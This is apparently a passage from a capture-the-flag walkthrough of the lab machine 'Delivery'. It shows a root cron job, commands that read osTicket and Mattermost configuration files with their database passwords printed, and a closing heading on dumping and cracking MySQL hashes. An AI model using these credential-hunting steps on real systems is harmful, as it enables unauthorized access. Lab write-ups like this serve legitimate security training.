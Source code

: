 Cron:

```bash
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
                                                                                                                     
* * * * *       root    /root/mail.sh

2021/04/26 15:55:01 CMD: UID=0    PID=29088  | pgrep -f py-smtp.py
```

Hunted credentials to login within mysql:

```bash
maildeliverer@Delivery:/var/www/osticket$ cat ./upload/include/ost-config.php
...
# Encrypt/Decrypt secret key - randomly generated during installation.
define('SECRET_SALT','nP8uygzdkzXRLJzYUmdmLDEqDSq5bGk3');

#Default admin email. Used only on db connection issues and related alerts.
define('ADMIN_EMAIL','maildeliverer@delivery.htb');

# Database Options
# ---------------------------------------------------
# Mysql Login info
define('DBTYPE','mysql');
define('DBHOST','localhost');
define('DBNAME','osticket');
define('DBUSER','ost_user');
define('DBPASS','!H3lpD3sk123!');

# Table prefix
define('TABLE_PREFIX','ost_');
...

maildeliverer@Delivery:/opt/mattermost/config$ cat config.json | grep -i sql -C5
        "DesktopLatestVersion": "",
        "DesktopMinVersion": "",
        "IosLatestVersion": "",
        "IosMinVersion": ""
    },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
```

## Dumping and cracking MySQL hashes using custom rules

